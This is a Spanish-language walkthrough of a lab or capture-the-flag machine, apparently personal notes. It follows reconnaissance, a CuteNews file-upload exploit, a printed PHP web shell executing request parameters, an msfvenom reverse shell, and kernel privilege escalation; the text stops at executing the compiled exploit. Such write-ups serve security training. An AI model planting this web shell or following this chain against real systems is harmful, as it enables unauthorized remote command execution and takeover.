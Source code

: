 Vamos a comprobar que la máquina se encuentre dentro del mismo rango de red con arp-scan:
![[Pasted image 20230227123506.png]]
Y ahora haremos un escaneo de nmap y vemos que sólo tiene abierto el puerto 80:
![[Pasted image 20230227123630.png]]
Podemos inspeccionar un poco más esta web antes de entrar en ella:
![[Pasted image 20230227123705.png]]
Entramos a la web desde el navegador y nos encontramos con un panel de login:
![[Pasted image 20230227123745.png]]
Vemos que la aplicación web se llama cutenews, por lo que miraremos si existe algún exploit con este nombre; y efectivamente existe:
![[Pasted image 20230227123847.png]]
Por tanto vamos a descargarlo con el parámetro -m de searchsploit:
![[Pasted image 20230227123948.png]]
Si abrimos este documento .txt veremos las instrucciones de cómo explotar esta vulnerabilidad y poder subir archvos a la máquina:
![[Pasted image 20230227124040.png]]
Por tanto vamos a seguir estos pasos; nos registraremos:
![[Pasted image 20230227124118.png]]
Y ahora, dentro de la parte de personal options, tenemos un panel donde podemos realizar algunas configuraciones y también subir archivos:
![[Pasted image 20230227124155.png]]
Ahora vamos a crear un fichero .php malicioso para subirlo a la web y conseguir ejecución remota de comandos:
```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
![[Pasted image 20230227124503.png]]
Ahora que ya lo hemos subido, vamos a hacer fuzzing para ver dónde se almacen los archivos subidos en esta web:
![[Pasted image 20230227124652.png]]
Y nos encuentra el directorio uploads:
![[Pasted image 20230227124711.png]]
Y si vamos a este directorio, nos encontramos con el archivo php malicoso que acabamos de subir:
![[Pasted image 20230227124736.png]]
Y ahora que ya tenemos el nombre y la ubicación de este fichero php malicioso, vamos a probar en llamarlo desde la barra de búsqueda y ejecutando un comando determinado; donde veremos que funciona:
![[Pasted image 20230227124916.png]]
De todos modos si intentamos obtener una reverse shell de esta forma, nos va a dar problemas, por lo que vamos a hacerlo creando un payload de msfvenom:
[[Msfvenom#Fichero PHP malicioso con msfvenom]]
![[Pasted image 20230227130140.png]]
Lo compartimos con la máquina víctima:
![[Pasted image 20230227130204.png]]
![[Pasted image 20230227130238.png]]
Y si hacemos un ls vemos que ya lo tenemos:
![[Pasted image 20230227130254.png]]
Y ahora si llamamos a este fichero desde la ruta uploads, vemos que habremos recibido la shell reversa con netcat:
![[Pasted image 20230227130613.png]]
![[Pasted image 20230227130624.png]]
Ejecutamos el comando script /dev/null -c bash para obtener un prompt, pero vemos que perdemos la conexión:
![[Pasted image 20230227130810.png]]
Por lo que vamos a ponernos en escucha mejor con metasploit con estas configuraciones:
![[Pasted image 20230227130947.png]]
Y ahora si lanzamos la url desde el navegador, llamando al fichero virus.php malicioso, vemos que obtenemos la reverse shell:
![[Pasted image 20230227131029.png]]
![[Pasted image 20230227131036.png]]
Y ahora para ganar una shell de verdad escribiremos el script /dev/null -c bash:
![[Pasted image 20230227131129.png]]
Una vez dentro, podemos conocer la versión de ubuntu con el comando lsb_release -a:
![[Pasted image 20230227131356.png]]
Y si miramos por internet nos encontramos con un exploit que nos permite elevar nuestros privilegios en estas versiones de ubuntu:
![[Pasted image 20230227131501.png]]
No obstante este exploit no va a funcionar, por lo que tenemos que investigar con una herramienta que sirve para detectar vulnerabilidades para escalar privilegios si lo ejecutamos en linux; y se llama linux-exploit-suggester:
![[Pasted image 20230227133025.png]]
Hacemos un git clone y compartimos este script con la máquina víctima:
![[Pasted image 20230227133055.png]]
![[Pasted image 20230227133105.png]]
![[Pasted image 20230227133121.png]]
Y ahora desde la máquina víctima otorgamos permisos y lo ejecutamos:
![[Pasted image 20230227133143.png]]
Y nos devuelve los fallos de seguridad que va detectando; y entre ellos tenemos el que encontramos uno parecido al que hemos encontrado antes por internet:
![[Pasted image 20230227133237.png]]
Vamos a este link y lo descargamos:
![[Pasted image 20230227133312.png]]
Lo compartimos con la máquina víctima:
![[Pasted image 20230227133523.png]]
Y ahora lo descargamos desde la máquina víctima, pero es importante hacerlo desde el directorio /tmp para contar con los permisos necesarios:
![[Pasted image 20230227134041.png]]
Tenemos que compilarlo para poder ejecutarlo con el comando gcc:
![[Pasted image 20230227134127.png]]
Y lo ejecutamos:








